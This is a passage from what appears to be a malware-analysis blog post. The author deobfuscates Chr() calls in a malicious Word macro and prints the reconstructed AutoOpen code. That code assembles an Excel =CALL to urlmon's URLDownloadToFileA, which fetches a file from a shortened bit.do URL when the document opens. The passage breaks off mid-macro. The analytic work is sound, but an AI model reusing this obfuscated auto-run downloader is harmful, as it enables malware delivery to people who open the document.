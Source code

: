 This was my first foray into manually deobfuscating Chr(), so it was a good experience, although I am still uncertain in a few areas.

{% highlight ruby %}
u =

Chr(108) = l
Chr(109) = m

urlmon

q =

Chr(85) = U
Chr(76) = L
Chr(68) = D
Chr(108) = l

URLDownl

l =

Chr(70) = F
Chr(108) = l
Chr(65) = A

[q = joining] oadToFileA

c =

Chr(76) = L

=CALL

s =

Chr(74) = J

( u + , + l + , JJCC J

CALL=("urlmon", "DownloadToFileA")
{% endhighlight %}

With much of the p-code deobfuscated, we can paint the picture as to what’s going on here.

{% highlight ruby %}
Sub AutoOpen()
  Dim ExcelSheet As Object
  
  Dim titu, maxi, key, pap, u, l, c, s, q, qw As String
  
  titu = "h" + "tt" + "ps" + "://bit" + ".do/" + "fQUfB"
  
  maxi = ActiveDocument.BuiltInDocumentProperties("Comments").Value
  
  u = "ur" & Chr(108) & Chr(109) & "on"
  
  q = Chr(85) & "R" & Chr(76) & Chr(68) & "own" & Chr(108)
  
  l = q & "oadTo" & Chr(70) & "i" & Chr(108) & "e" & Chr(65)
  
  c = "=CAL" & Chr(76)
  
  s = c & "(""" + u + """, """ + l + """, ""JJCC" & Chr(74)
  
  key = s & "J"", 0, """ + titu + """, """ + maxi + """, 0, 0)"
  
  addition = 3 + 1
  
  mynumber = (12 - 4) - addition
  
  pap = "Example"
  
  Set ExcelSheet = CreateObject("Excel.Application")
  
  Workbook = ExcelSheet.Workbooks.Add()
  
  Set WorksheetsD = ExcelSheet.Worksheets
  